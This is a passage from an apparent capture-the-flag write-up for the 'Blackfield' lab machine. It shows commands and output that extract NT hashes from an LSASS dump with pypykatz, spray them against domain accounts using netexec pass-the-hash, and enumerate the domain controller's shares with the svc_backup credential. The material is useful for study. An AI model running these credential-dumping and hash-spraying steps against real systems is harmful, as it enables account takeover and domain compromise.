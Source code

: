 ```
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62

[...]
```

We can extract all hashes from the lsass dump and save them in a file.

`pypykatz lsa minidump ./lsass.DMP | grep -i 'NT:' |  awk '{ print $2 }' | sort -u | tee ./domain_hashes.txt`:
```
7f1e4ff8c6a8e6b6fcae2d9c0572cd62
9658d1d1dcd9250115e2205d9f48400d
b624dc83a27cc29da11d9bf25efea796
```

`netexec smb 10.10.10.192 -u ./domain_users_lowercase.txt -H ./domain_hashes.txt`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\guest:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\krbtgt:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE 

[...]

SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\dc01$:9658d1d1dcd9250115e2205d9f48400d STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\audit2020:9658d1d1dcd9250115e2205d9f48400d STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\support:9658d1d1dcd9250115e2205d9f48400d STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d ←
```

This was successful, and we found a working combination: `svc_backup`:`9658d1d1dcd9250115e2205d9f48400d`.

`netexec smb 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d ←
```

`netexec smb 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d' --shares`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d 
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$          READ            Remote Admin
SMB         10.10.10.192    445    DC01             C$              READ,WRITE      Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
```